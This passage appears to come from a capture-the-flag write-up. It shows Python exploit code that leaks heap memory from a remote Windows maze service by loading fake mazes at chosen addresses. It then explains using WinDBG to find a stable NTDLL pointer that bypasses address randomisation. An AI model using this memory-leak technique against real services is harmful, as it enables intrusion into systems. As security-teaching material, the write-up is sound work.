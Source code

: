 ```python
    lsb = addr & 0xff
    if not is_ok_addr(addr >> 8) or (lsb == 0 and not is_ok_addr((addr >> 8) - 1)):
        # cannot leak this address (non-LSB bytes are whitespace or NUL)
        return b'\xcc'

    # correct for NUL or whitespace LSB
    if lsb == 0 or lsb == 32:
        offset = 1
    elif lsb in (9, 10, 11, 12, 13):
        offset = lsb - 8
    else:
        offset = 0

    addr -= offset
    log.info("Leaking address 0x%x (offset %d)", addr, offset)
    width = make_fake_maze(addr)
    menusync()
    menu(4) # play
    leak = s.recvuntil(b'\r\n-*-*-*-*-*-*-*', drop=True)

    s.sendline('x') # quit playing
    menu(5) # remove
    s.sendline('y') # confirm remove

    if len(leak) != width and b'\r\n' in leak:
        log.info("Correcting for CRLF")
        leak = leak.replace(b'\r\n', b'\n')
    assert len(leak) == width
    return leak[offset:]

def do_leak_range(addr, sz):
    limit = addr + sz
    buf = bytearray()
    while addr < limit:
        leak = do_leak(addr)
        log.info("  Leaked %s", leak.hex())
        buf += leak
        addr += len(leak)
    return buf[:sz]
```

By calling `do_leak_range`, which repeatedly loading mazes with different addresses, it becomes possible to leak a large amount of heap memory and look for pointers to other blocks of memory. By using `dps <heapaddr> L100` in WinDBG, I identified probable pointers in the heap on my machine, and searched for similar pointers in the leak on the remote machine. One of the leaked pointers is a pointer from NTDLL. On Windows, DLL base addresses are only randomized once per boot, so the leaked pointer address is stable across multiple connections to the service, and so I simply hardcoded it in my exploit.

![WinDBG, showing the pair of recognizable LdrpHashTable pointers less than 0x100 QWORDs after the leaked heap address](images/stage2-001-windbg.png)
